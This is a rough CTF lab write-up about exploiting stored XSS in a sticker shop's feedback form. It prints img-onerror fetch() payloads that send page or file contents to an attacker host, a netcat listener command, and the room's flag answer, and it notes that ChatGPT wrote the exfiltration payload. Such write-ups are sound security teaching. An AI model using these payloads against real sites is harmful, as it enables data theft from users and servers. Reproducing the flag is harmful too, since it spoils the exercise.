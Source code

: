 ROUGH WRITEUP NOT COMPLETE

![image](https://github.com/user-attachments/assets/c3a16a82-63e5-4467-b055-282e5a2316d5)

____________________________________________________________________________________________________________________ 

This CTF is designed around exploiting a cross-site scripitng vulnerablility within the target's website.

XSS examples learnt from this exercise:

``` <img src = x onerror="fetch('http://attacker_ip:port')"/> ```

``` <img src="x" onerror="fetch('http://victim_ip/file').then(r => r.text()).then(r => fetch('http://attacker_ip:port/?c=' + r))"/> ```

## The sticker shop is finally online!

<details>
<summary> Discovering the XSS Vulnerability </summary>
  <p></p>

____________________________________________________________________________________________________________________  

From exploring the website, which is very bare bones, there is a big customer feedback box which is very badly sanitised.

![image](https://github.com/user-attachments/assets/e58903a5-a95f-4a97-9d01-8af8565dabe2)

We can check for bad sanitisation and whether or not we can abuse it to steal data back to our attacker machine by submitting an xss attack test to the feedback box:

``` <img src = x onerror="fetch('http://attacker_ip:8080')"/> ```

This works as follows:

**img src=x** -> This tries to make the website load an image that doesnt exist, so therefore it throws an error.

**onerror=** -> This defines what to do when the image fails to load and an error is thrown.

**fetch=** -> This makes a network request to the IP/URL in the brackets.

A netcat session can be created to listen for the reply using the following command:

```nc -nvlp 8080```

All together, the text box is fed a request to open an image that doesnt exist. It can't, so it defaults to the error that tells it to send a network request back to the attackers machine. As there is a netcat session listening on the same port, it can recieve a response from the web server, proving there is a vulnerability to be exploited.

![image](https://github.com/user-attachments/assets/da4d8e2a-32b4-43d0-8f0c-07709ef530b5)

____________________________________________________________________________________________________________________ 

</details>

<details>
<summary> Abusing the vulnerability to get the flag </summary>
  <p></p>

____________________________________________________________________________________________________________________ 
  
Knowing this information, I basically fed the question to chatgpt and it provided me a lovely crafted response with additional lines added onto the initial injected code as seen below:

<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(r => fetch('http://10.10.239.245:8080/?c=' + r))"/>

This is very similar to the previous injection, but this time taking data from http:IP_ADDR/flag.txt instead. This would work using this method but not when searched on my own device as this is the website doing a lookup for its own material, therefore it will always have access to it. 

This works as Follows:

.then(r => r.text()) = This converts the response to text

.then(r => fetch('http://10.11.116.53:8080/?c=' + r)) = This sends the converted response to the attacker IP who is listening

![image](https://github.com/user-attachments/assets/33c82a30-a34c-49fa-bef4-8f333bb41509)

``` Answer = THM{83789a69074f636f64a38879cfcabe8b62305ee6} ```

____________________________________________________________________________________________________________________ 

</details>

